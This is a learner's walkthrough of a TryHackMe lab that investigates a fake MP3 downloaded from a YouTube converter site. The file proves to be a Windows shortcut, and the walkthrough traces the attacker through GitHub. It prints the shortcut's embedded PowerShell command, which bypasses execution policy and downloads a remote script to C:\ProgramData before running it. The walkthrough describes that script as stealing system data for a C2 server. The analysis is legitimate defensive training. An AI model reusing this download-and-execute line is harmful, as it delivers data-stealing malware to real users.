 # TryHackMe  

## Task 7: Day1  
![image](https://github.com/user-attachments/assets/d898a041-db45-4062-92c0-f3c5b4208557)


**OPSEC**: It stands for **Operational Security**.  
It is a set of principles which are used in order to protect the security of an operator or operation. It helps in 
**identifying and protecting senstive info from malicious websites**, ads, etc. This can be done using code names, 
strong, unique passwords, VPN while using Wi-Fi, etc.  

In this challenge, we are basically dealing with a YouTube to mp3 or mp4 converter website, which not only downloads the required song file, but with that some other suspicious files. 
![image](https://github.com/user-attachments/assets/c859a279-9e06-4764-9e7e-a353f9554d27)  

On converting the YouTube link, downloading and extracting the file, we see that apart of main file, 1 more file is downloaded, namely somg.mp3.   
<img width="960" alt="2024-12-12 (6)" src="https://github.com/user-attachments/assets/e10b2c41-ba6e-4650-a690-ed19c7d84927" />  

I opened the terminal of the AttackBox and commanded `file song.mp3`, which had nothing suspicious. Then `file somg.mp3`, which had a **MS Windows shortcut** (a `.lnk` file), instead of a song. This file type is used in Windows to link to another file/folder/application. 

Now, to inspect .lnk files to reveal the embedded commands and attributes, we used the **ExifTool**.  
![image](https://github.com/user-attachments/assets/00b6f4a8-3b6f-41a4-987c-b9961c08ae73)    

On investigating the file contents...  
```
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```

Browsing this site https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1 on the AttackBox's FireFox browser, we see a code that is meant to collect very sensitive info from the system and send to the attacker's remote server. This whole code was made by some M.M.  

To investigate the site's source code further, we used GitHub(https://github.com/search?q=%22Created+by+the+one+and+only+M.M.%22&type=issues). In this there were 4 results, having various comments which helped us to know all about the attacker.    

We went to last one to find out that the findings were sent to a C2 server.  
![image](https://github.com/user-attachments/assets/c5544c94-450d-4eb3-b866-014bd2463e64)    

![image](https://github.com/user-attachments/assets/f36444d4-b4e2-484f-9bfe-bb11a89813b4)   

For finding author, I searched in the terminal output...  
![image](https://github.com/user-attachments/assets/1bea1070-c2fd-4611-962c-0a364e337ec1)    

The URL was given in the website itself. (and in comments as well).   
![image](https://github.com/user-attachments/assets/9c3f19f9-a795-4331-a8eb-8801fc9a34dd)    

M.M. (Mayor Malware) was found in the profile of MM-WarevilleTHM on GitHub.  
![image](https://github.com/user-attachments/assets/b761016f-82f5-46dc-946e-a19d6f2a98a9)   

Number of commits was found by going to CryptoWallet-Search of the same profile.   

![image](https://github.com/user-attachments/assets/b9a2598e-25ae-49e5-990c-495411752748)    



























